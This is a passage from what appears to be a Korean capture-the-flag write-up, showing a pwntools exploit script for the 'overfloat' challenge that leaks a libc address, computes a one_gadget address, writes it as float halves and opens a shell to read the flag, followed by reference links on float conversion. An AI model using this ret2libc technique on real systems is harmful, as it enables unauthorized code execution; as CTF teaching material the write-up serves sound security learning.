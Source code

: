 p.status('puts@plt')
r.sendlineafter(': ', u(overfloat.plt.puts))
r.sendlineafter(': ', '0')

p.status('main@.text')
r.sendlineafter(': ', u(overfloat.sym.main))
r.sendlineafter(': ', '0')

p.status('1st done')
r.sendlineafter(': ', 'done')
r.recvuntil('\n')

p.status('libc leak')
LEAK = '\0'+r.recvuntil('\n')[:-1]
LEAK = LEAK.ljust(8, '\0')
LEAK = u64(LEAK)
libc.address = LEAK - libc.sym._IO_2_1_stdin_
log.info('libc: {:#x}'.format(libc.address))

for _ in range(14):
    p.status(str(_))
    r.sendlineafter(': ', str(_))

p.status('one_gadget')
one_gadget = libc.address + 0x4f2c5
r.sendlineafter(': ', u(one_gadget & 0xffffffff))
r.sendlineafter(': ', u(one_gadget >> 32))

p.status('2nd done')
r.sendlineafter(': ', 'done')
r.sendlineafter('\n', 'cat /home/overfloat/flag')
p.success()
r.interactive()
{{< /highlight >}}

참고  
Online Converter : https://www.binaryconvert.com/convert_float.html  
Python Converting Code : https://stackoverflow.com/questions/1592158/convert-hex-to-float#answer-1592362  
Python2 struct module : https://docs.python.org/2/library/struct.html  
Python3 struct module : https://docs.python.org/3/library/struct.html
